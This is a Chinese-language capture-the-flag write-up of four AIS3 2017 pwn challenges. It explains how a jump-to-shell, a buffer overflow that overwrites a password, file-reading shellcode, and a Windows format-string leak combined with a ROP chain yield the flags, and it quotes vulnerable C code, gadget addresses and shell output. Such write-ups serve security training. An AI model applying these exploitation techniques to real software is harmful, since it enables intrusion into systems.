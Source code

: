 # AIS3 2017 pre-exam writeup (pwn)

## pwn1

送一個位址給程式，接著會跳轉到該位址執行。`youcantseeme` 是個好選擇，不過他 address 的第一個 byte 是 0x0a，會中止 `scanf`，所以乾脆直接跳去 `0x8048613` 跑 `system("sh")`。

```
0804860a <youcantseeme>:
 804860a:       55                      push   ebp
 804860b:       89 e5                   mov    ebp,esp
 804860d:       83 ec 08                sub    esp,0x8
 8048610:       83 ec 0c                sub    esp,0xc
 8048613:       68 5c 87 04 08          push   0x804875c
 8048618:       e8 03 fe ff ff          call   8048420 <system@plt>
 804861d:       83 c4 10                add    esp,0x10
 8048620:       90                      nop
 8048621:       c9                      leave
 8048622:       c3                      ret
```

`ais3{4nn0y1n9_Wh1t3_SpAcE_CHAR4CTERS}`

## pwn2

剛看到題目嚇了一跳，因為之前沒接觸過 windows 的題型。  
首先在輸入 `ais3_user.name` 的時候可以直接 overflow 到 `ais3_user.pass`，接著在輸入密碼的時候照著填就可以成功 login 了。  
接著選擇進入 `readflag()`，可以發現他會把 flag xor `ais3_user.pass` 之後印出來。所以只要讓密碼等於 0 就可以了。

```c
void readflag() {
    char buf[100];
    FILE *fp;
    fp = fopen("./flag.txt", "rb");
    if (fp) {
        fread(buf, 40, 1, fp);
        fclose(fp);
        for (int i = 0; i < 40; i++) {
            buf[i] = buf[i] ^ ais3_user.pass;
        }
        printf("Magic : %s\n", buf);
        Sleep(2);
        exit(0);
    }
};
```

`ais3{Just_a_simpl3_overflow}`

## pwn3

寫 shellcode 來讀 flag，限用 `open`/`read`/`write`/`exit` 這幾種 system call，並且 shellcode 中不能出現 `"flag"`，另外單次 `read` 最多只能讀 42bytes。  
首先要解決 `"flag"` 的問題，我先寫一個 `read` 把 `"/home/pwn3/flag"` 讀到 stack 上，接著就可以做 `open -> read -> write` 印出 flag。  
這個時候發現 flag 怎麼印不完整，困惑之際 **@nae** 說要不要繼續讀，果真就出現了！總共讀了 3 次才讀完。

`ais3{r34d_0p3n_r34d_Writ3_c4ptur3_th3_fl4g_sh3llc0ding_1s_s0_fUn_y0ur_4r3_4_g0od_h4ck3r_h4h4}`

## pwn4

這題也是 windows 的題目，解起來很不習慣，卻也學到不少東西XD  
首先可以注意到以下兩個 function 有 fmt 和 bof 可以利用。

```c
void echo() {
    char buf[16];
    if (!count) {
        printf("What do you want to say : ");
        read(0, buf, 15);
        printf("You say : ");
        printf(buf);
        count++;
    }else {
        puts("Hello world !");
    }
}

int bof() {
    int size;
    char buf[20];
    puts("Do you know stack overflow ?");
    printf("Try your best : ");
    size = read(0,buf,100);
    puts("Boom !!!");
    return size;
}
```

我先利用 fmt，發現第一個印出來的東西是在 `.text` 的 address，可以用他算出 `.text` 的開頭。  
接著就可以利用 bof 來疊 ROP 了，目標是造出 `system("cmd.exe")`。  
觀察一下組語再查一下[文件](https://msdn.microsoft.com/en-us/library/ms235286.aspx)後確認 function call 的第一個參數是用 `rcx` 來傳遞的。然後程式本身自帶 `"cmd.exe"`，可以直接拿來用 *( 我一開始是自己擺在 stack 上，結果耗了很久，只能在 local 開 shell，遠端不知道為什麼會失敗 orz )*，至於 `system` 可以直接在 `.text` 中找到。  
最後利用 [Ropper](https://github.com/sashs/Ropper) 找出要用的 gadgets *( ROPgadget 解出來的 offset 不知道為什麼怪怪的 )*。

```
0x140001d45: pop rsi; ret;            # 先把參數給 rsi
0x140001519: pop rdi; ret;            # system 的位址丟給 rdi
0x140002648: mov rcx, rdi; call rsi;  # 把參數傳給 rcx 後呼叫 system
```

然後就可以順利開 shell 了！

```
Microsoft Windows [Version 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\visitor\Desktop\pwn3>type flag.txt
type flag.txt
ais3{St4ck_0v3rfl0w_1s_v3ry_d4ng3rous}
```
